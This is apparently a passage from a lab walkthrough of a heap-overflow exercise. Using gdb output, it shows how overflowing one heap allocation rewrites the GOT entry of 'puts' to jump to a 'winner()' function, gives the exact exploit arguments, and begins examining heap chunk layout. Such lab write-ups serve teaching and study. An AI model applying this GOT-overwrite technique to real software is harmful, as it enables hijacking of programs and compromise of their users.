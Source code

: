 `0x30303030` happens to be the ASCII code for the `0` (zero) character, which are the first 4 bytes of the second input argument. The segfault `0x30303030 in ?? ()` highlights that the `puts` call, got rewired (its GOT entry) to invoke instruction `0x30303030`. Dumping the `EIP` confirms this:

    gdb-peda$ info registers
    eax            0x8049844        0x8049844
    ecx            0x0      0x0
    edx            0x19     0x19
    ebx            0xb7fd5ff4       0xb7fd5ff4
    esp            0xbffffc3c       0xbffffc3c
    ebp            0xbffffc68       0xbffffc68
    esi            0x0      0x0
    edi            0x0      0x0
    eip            0x30303030       0x30303030

Placing the address of the desired instruction to be executed is now trivial, for example the `winner()` function:

    gdb-peda$ x winner
    0x80484ec <winner>:      "U\211\345\203\354\030\307\004$"

Now to write the address of `winner()` into the EIP:

    gdb-peda$ r "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x44\x98\x04\x08"`" \
        "`/bin/echo -ne "\xec\x84\x04\x08"`"
    and we have a winner @ 1570881614

To gain a better intuition about what is going here. Set breakpoints after each `malloc` call. The first break is hit:

    Breakpoint 1, 0x08048525 in main (argc=0x3, argv=0xbffffd24) at main.c:21
    21        i1 = malloc(sizeof(struct internet));

To visualise the heap segment further, need its segment address:

    gdb-peda$ info proc mappings
    process 2813
    Mapped address spaces:

            Start Addr   End Addr       Size     Offset objfile
             0x8048000  0x8049000     0x1000          0      /root/code/heap1/heap1
             0x8049000  0x804a000     0x1000          0      /root/code/heap1/heap1
             0x804a000  0x806b000    0x21000          0           [heap]
            0xb7e76000 0xb7e77000     0x1000          0
            0xb7e77000 0xb7fd3000   0x15c000          0      /lib/cmov/libc-2.13.so

Can see the heap is mapped between addresses `0x804a000` to `0x806b000`:

    gdb-peda$ x/64wx 0x804a000
    0x804a000:      0x00000000      0x00000011      0x00000000      0x00000000
    0x804a010:      0x00000000      0x00020ff1      0x00000000      0x00000000
    0x804a020:      0x00000000      0x00000000      0x00000000      0x00000000
    0x804a030:      0x00000000      0x00000000      0x00000000      0x00000000
    0x804a040:      0x00000000      0x00000000      0x00000000      0x00000000

Here can see the first heap allocation `0x00000000 0x00000011 0x00000000 0x00000000`, the first 8 bytes `0x00000000 0x00000011` being the chunk header, and the second 8 bytes `0x00000000 0x00000000` the user data (the uninitialised `internet struct` in this case).
